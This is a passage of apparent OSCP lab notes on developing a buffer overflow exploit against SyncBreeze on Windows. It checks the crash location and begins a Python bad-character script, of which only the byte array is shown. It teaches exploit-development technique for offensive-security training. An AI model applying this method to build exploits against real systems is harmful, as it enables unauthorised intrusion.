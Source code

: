 ### Verify the crash points to our shellcode placeholder location (DDDD's)
![ee07a332d8a2982c2b532470f427c380.png](../../../_resources/6d089660bcbc460e9cd4099e8792fef1.png)

### Start off with a script that holds all hex characters except 0x00, which has already been taken out because it is a known bad character. Here is the script:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 7_check_bad_chars_original.py 
#!/usr/bin/python
import socket
import sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```